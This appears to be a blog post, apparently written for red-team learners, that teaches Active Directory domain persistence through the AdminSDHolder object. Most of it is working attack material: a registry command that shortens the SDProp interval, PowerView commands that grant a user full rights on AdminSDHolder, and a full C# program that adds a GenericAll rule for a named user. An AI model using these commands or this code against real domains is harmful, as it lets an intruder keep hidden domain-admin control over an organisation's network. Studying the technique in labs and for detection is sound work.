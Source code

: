 # Adding ourselves to AdminSDHolder

In this post, we will be discussing a domain persistence technique.

## AdminSDHolder Object
AdminSDHolder container acts as ACL template for many protected users and accounts in Active Directory. For every 60 minutes SDProp process applies these ACE's of AdminSDHolder object. This means if we add an user with All Permissions to this object then we can add ourselves to the 'Domain Admins' group. Also we need Domain Administrator privileges to add an user.

Distinguised Name for AdminSDHolder object is `CN=AdminSDHolder,CN=System,DC=tech69,DC=local`

To view in the "Active Directory Users and Computers" -> Click on View -> Show Advanced

## Changing the SDProp interval via registry

We can set it to any number of seconds we want

```
REG ADD HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /V AdminSDProtectFrequency /T REG_DWORD /F /D 100
```

## Adding User via PowerView

Import poweview and use command Add-objectacl

```powershell
import-module powerview.ps1


Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName test1 -Verbose -Rights All
```

To check if we are part of Domain Admins or not, we can use net command or

```powershell
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'test1'}
```

## Adding User via C#

I have explained this code in my youtube channel and here is the video link
[Domain Persistence via AdminSDHolder](https://youtu.be/4TMpwKBTFq0)

Also i have tested this on my local AD and in tryhackme's throwback network. You can configure this program to receive command line arguments to add specific user. 

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.DirectoryServices;
using System.DirectoryServices.ActiveDirectory;
using System.DirectoryServices.AccountManagement;
using System.Security.Principal;
using System.Security.AccessControl;

namespace ADACL101
{
    class Program
    {
        static void Main(string[] args)
        {

            DirectoryEntry de = new DirectoryEntry("LDAP://CN=AdminSDHolder,CN=System,DC=THROWBACK,DC=local");
            DirectorySearcher ds = new DirectorySearcher();
            ds.SearchRoot = de;
            foreach(SearchResult sr in ds.FindAll())
            {
                DirectoryEntry holder = sr.GetDirectoryEntry();
                ActiveDirectorySecurity ads = holder.ObjectSecurity;
                AuthorizationRuleCollection arc = ads.GetAccessRules(true, true, typeof(NTAccount));
                foreach(AuthorizationRule a in arc)
                {
                    Console.WriteLine(a.IdentityReference.ToString());
                }
                PrincipalContext pc = new PrincipalContext(ContextType.Domain);
                UserPrincipal user = UserPrincipal.FindByIdentity(pc, "BlaireJ");
                ActiveDirectoryAccessRule ar = new ActiveDirectoryAccessRule(user.Sid, ActiveDirectoryRights.GenericAll, AccessControlType.Allow);
                ads.AddAccessRule(ar);
                holder.CommitChanges();
            }
        }
    }
}

```

![alt image not found](/Pasted image 20220423182151.png)

## Manually triggering SDProp

We can manually trigger these replication changes via ldp.exe 

This microsoft doc explains very clearly -> [Protected Accounts and Groups](https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/appendix-c--protected-accounts-and-groups-in-active-directory)
